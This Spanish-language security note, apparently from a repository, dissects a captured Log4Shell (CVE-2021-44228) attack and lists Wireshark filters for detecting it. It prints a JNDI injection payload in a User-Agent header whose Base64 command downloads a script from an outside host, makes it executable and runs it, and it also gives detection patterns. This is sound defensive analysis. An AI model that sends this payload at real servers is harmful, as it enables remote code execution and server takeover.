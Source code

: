 
## Ejemplo de captura del tráfico de un ataque Log4j
```
User-Agent: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}\r\n

- User-Agent: Este es el campo del encabezado HTTP que normalmente indica qué navegador o cliente HTTP está haciendo la solicitud.
- ${jndi:ldap://...}: Esta es la parte crítica que explota la vulnerabilidad Log4Shell (CVE-2021-44228) en Log4j. Permite la ejecución remota de código a través de la inyección de una cadena maliciosa.
  - jndi: Java Naming and Directory Interface, una API de Java para servicios de directorio que permite a las aplicaciones Java descubrir y obtener datos o recursos usando un nombre.
  - ldap: Lightweight Directory Access Protocol, un protocolo para acceder y mantener servicios de directorio distribuidos.
  
- ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Esta URL LDAP apunta a un servidor controlado por el atacante (45.137.21.9 en el puerto 1389). El path que sigue especifica un comando codificado en Base64 que el servidor vulnerable intentará ejecutar.

- d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Este es el comando codificado en Base64. Decodificado, se traduce a una secuencia de comandos shell que realiza lo siguiente:
  - Descarga un script (probablemente malicioso) de http://62.210.130.250/lh.sh.
  - Cambia los permisos del script descargado para hacerlo ejecutable (chmod +x lh.sh).
  - Ejecuta el script descargado (./lh.sh).
```

El objetivo de esta inyección es forzar al servidor que utiliza Log4j a ejecutar código arbitrario, lo que podría resultar en el control remoto del servidor por parte del atacante. Es una explotación grave que subraya la importancia de mantener actualizado el software para incluir parches de seguridad contra vulnerabilidades conocidas.

## Filtros wireshark para Log4j
- Research outcomes:
  - The attack starts with a "POST" request.
    ```
    http.request.method == "POST"
    ```
  - There are known cleartext patterns: "jndi:ldap" and "Exploit.class".
    ```
    (ip contains "jndi") or ( ip contains "Exploit")
    (frame contains "jndi") or ( frame contains "Exploit")
    (http.user_agent contains "$") or (http.user_agent contains "==")
    ```